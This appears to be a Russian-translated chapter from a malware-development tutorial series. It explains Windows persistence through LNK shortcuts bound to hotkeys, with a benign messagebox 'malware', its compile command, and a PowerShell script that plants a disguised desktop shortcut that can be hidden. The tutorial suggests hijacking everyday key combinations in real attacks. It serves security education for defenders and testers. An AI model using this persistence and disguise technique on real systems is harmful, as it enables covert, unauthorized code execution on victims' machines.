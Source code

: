 \newpage
\subsection{89. разработка вредоносного ПО: закрепление (persistence) - часть 23. LNK-файлы. Простой пример на Powershell.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/112/2023-12-11_01-01_1.png){width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через Windows LNK-файлы.     

### LNK

Согласно [Microsoft](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943), `LNK`-файл представляет собой ярлык или "ссылку" в Windows, предоставляя ссылку на исходный файл, папку или приложение. Для обычных пользователей эти файлы имеют полезное значение, помогая организовать файлы и поддерживать порядок на рабочем пространстве. Однако с точки зрения атакующего `LNK`-файлы приобретают другое значение. Они использовались в различных документированных атаках APT-групп и, насколько мне известно, остаются актуальным вариантом для таких действий, как фишинг, установление закрепления и выполнение полезных нагрузок.     

Знаете ли вы, что ярлыки Windows можно регистрировать с помощью комбинации клавиш для их выполнения? Это основной трюк для закрепления вредоносного ПО в данном случае.    

### практический пример

Допустим, у нас есть "вредоносное" ПО. Как обычно, `meow-meow` messagebox приложение `hack.c`:    

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/12/10/malware-pers-23.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

А затем просто создаем powershell-скрипт для создания `LNK`-файла со следующими свойствами:     

```powershell
# Define the path for the shortcut on the desktop
$shortcutPath = "$([Environment]::GetFolderPath('Desktop'))\Meow.lnk"

# Create a WScript Shell object
$wshell = New-Object -ComObject Wscript.Shell

# Create a shortcut object
$shortcut = $wshell.CreateShortcut($shortcutPath)

# Set the icon location for the shortcut
$shortcut.IconLocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"

# Set the target path and arguments for the shortcut
$shortcut.TargetPath = "Z:\2023-12-10-malware-pers-23\hack.exe"
$shortcut.Arguments = ""

# Set the working directory for the shortcut
$shortcut.WorkingDirectory = "Z:\2023-12-10-malware-pers-23"

# Set a hotkey for the shortcut (e.g., CTRL+W)
$shortcut.HotKey = "CTRL+W"

# Set a description for the shortcut
$shortcut.Description = "Not malicious, meow-meow malware"

# Set the window style for the shortcut (7 = Minimized window)
$shortcut.WindowStyle = 7

# Save the shortcut
$shortcut.Save()

# Optionally make the link invisible by adding 'Hidden' attribute
# (Get-Item $shortcutPath).Attributes += 'Hidden'
```

Как можно видеть, логика довольно простая. Мы просто создаем ярлык на рабочем столе, у которого задана комбинация клавиш: `CTRL+W`. Конечно, в реальных сценариях атаки это может быть `CTRL+C`, `CTRL+V` или `CTRL+P` и т. д.    

Например, если создать ярлык для `Paint`, у него нет назначенной комбинации клавиш:    

![pers](./images/112/2023-12-09_23-54.png){width="80%"}    

> Проводник Windows ограничивает поддержку ярлыков командами, начинающимися с CTRL+ALT. Дополнительные последовательности должны быть заданы программно через COM.    

### демонстрация

Давайте посмотрим, как все работает на практике. Прежде всего, компилируем наше "вредоносное" ПО:      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/112/2023-12-11_01-28.png){width="80%"}    

Для проверки корректности запускаем:    

```powershell
.\hack.exe
```

![pers](./images/112/2023-12-11_00-51.png){width="80%"}    

Теперь просто запускаем наш PowerShell-скрипт для закрепления:    

```powershell
Get-Content pers.ps1 | PowerShell.exe -noprofile -
```

![pers](./images/112/2023-12-11_00-57.png){width="80%"}    

В результате `Meow LNK`-файл успешно создан.    

Если посмотреть его свойства, все в порядке:     

![pers](./images/112/2023-12-11_01-01.png){width="80%"}    

Наконец, просто запускаем его и пытаемся активировать комбинацию `CTRL+W`:     

![pers](./images/112/2023-12-11_01-02.png){width="80%"}    

![pers](./images/112/2023-12-11_01-05.png){width="80%"}    

Как можно видеть, все сработало идеально, как и ожидалось! =^..^= :)    

Эта техника используется APT-группами, такими как [APT28](https://attack.mitre.org/groups/G0007/), [APT29](https://attack.mitre.org/groups/G0016/), [Kimsuky](https://attack.mitre.org/groups/G0094/), а также вредоносным ПО, таким как [Emotet](https://attack.mitre.org/software/S0367/). По правде говоря, этот метод широко применяется и распространен благодаря своей высокой эффективности в обмане жертв.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.      

Огромная благодарность моему другу и коллеге [Антону Кузнецову](https://twitter.com/yrevichus), который напомнил мне об этой технике во время одной из своих удивительных презентаций.

[ATT&CK MITRE: T1204.001](https://attack.mitre.org/techniques/T1204/001/)     
[APT28](https://attack.mitre.org/groups/G0007/)    
[APT29](https://attack.mitre.org/groups/G0016/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)    
[Emotet](https://attack.mitre.org/software/S0367/)    
[MSDN: Shell Link (.LNK) Binary File Format](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-12-10-malware-pers-23)     
